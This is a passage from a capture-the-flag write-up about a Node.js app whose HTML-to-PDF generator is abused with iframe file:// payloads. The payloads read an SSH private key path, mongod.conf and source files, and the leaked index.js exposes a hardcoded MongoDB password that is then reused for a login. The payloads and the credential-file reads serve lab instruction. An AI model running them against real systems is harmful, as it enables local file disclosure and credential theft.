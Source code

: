 Remember that guy from the main page?   
Angoose Garden, Head of IT at Stockers Ltd.  
does he have a private key? 
```html
<iframe src=file:///home/angoose/.ssh/id_rsa width=\"560\" height=\"700\"></iframe>
```
no


## Credential reuse
We already know that the app is using mongo, so maybe we can try to leak the db password in case it was reused? Looking at this blog post from [mongodb.com](https://www.mongodb.com/blog/post/quick-start-nodejs-mongodb-how-to-get-connected-to-your-database) it looks like they're just setting a const uri with a connection string that has the creds, directly in the code, lets see if we can get our hands on that. 
```html
<iframe src=file:///var/www/dev/node_modules/raw-body/index.js width=\"560\" height=\"700\"></iframe>
<iframe src=file:///etc/mongod.conf width=\"560\" height=\"700\"></iframe>
<iframe src=file:///var/www/dev/index.js width=\"560\" height=\"700\"></iframe>
```

It was simply in the index.js file
```nodejs
const express = require("express");
const mongoose = require("mongoose");
const session = require("express-session");
const MongoStore = require("connect-mongo");
const path = require("path");
const fs = require("fs");
const { generatePDF, formatHTML } = require("./pdf.js");
const { randomBytes, createHash } = require("crypto");
const app = express();
const port = 3000;
// TODO: Configure loading from dotenv for production
const dbURI =
"mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?
authSource=admin&w=1";
app.use(express.json());
app.use(express.urlencoded({ extended: false }));
app.use(
session({
secret: randomBytes(32).toString("hex"),
resave: false,
saveUninitialized: true,
store: MongoStore.create({
mongoUrl: dbURI,
}),
})
);
```

```bash
cat user.txt |wc -c
33
```
